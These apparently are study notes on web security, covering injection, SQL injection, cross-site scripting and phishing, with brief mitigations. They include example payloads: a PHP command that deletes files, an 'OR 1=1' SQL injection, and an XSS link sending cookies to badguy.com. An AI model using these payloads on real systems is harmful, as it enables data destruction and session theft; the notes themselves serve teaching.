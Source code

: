 The **goals of web security** are: safely browse the web (confidentiality and integrity), support secure web apps and support secure mobile apps.

### Injection attack

Them most dangerous attack in terms of risk is the **injection attack**. Is consist of executing arbitrary code on the server.
An example in PHP is using the eval stement and executing code:

```PHP
$ans= 10 ; system(`rm*.*’)
```

which leads to esase all the system data.

Another common exaple is **SQL injection** in which the attacker injects some code to a  SQL query like:

``` SQL
SELECT * FROM Person WHERE UserId= 105 OR 1=1;
```

in this case the SQL query is asking not only to match the UserID but also `1=1` that is always true.

One possible way to solve these problem is to check everytime the input that's passed to the server to avoid that a person can be alble to make something like this.

### Cross-site scripting (XSS)

**Cross-site scripting** enables attacker to inject client-side scripts into web pages as JavaScript from a website to access that site's cookies.

An example of XSS attack is to make the victim open the link

``` URL
http://victim.com/search.php? term = <script> window.open( “http://badguy.com?cookie= ” + document.cookie) </script>
```

When in the website that the victim is opening the website contains:

``` HTML
<BODY>Results for <?php echo $_GET[term] ?> : ... </BODY>
```

An important mitigation to the Universal-XSS (U-XSS) attacks is to have the same-origin policy in which the origin is defined as URI scheme, host name and port number.  

A **mitigation for XSS** attacks is to never trust the client side and filter always the input.

### Phishing attacks

The **phishing attacks** are attacks in which the user get unsuspecting emails composed to make the user discose informations or visiting websites in order to gain access to thir identities.  

**Phishing attack countermesures** are:

- make the certificate authority check the authenticity of the website
- browsers canblock suspicious websites
- educate people in detecting these attacks
- make prople checking if the email has personal informations
  - spear phishing is the attack in which the attacker has personal informations
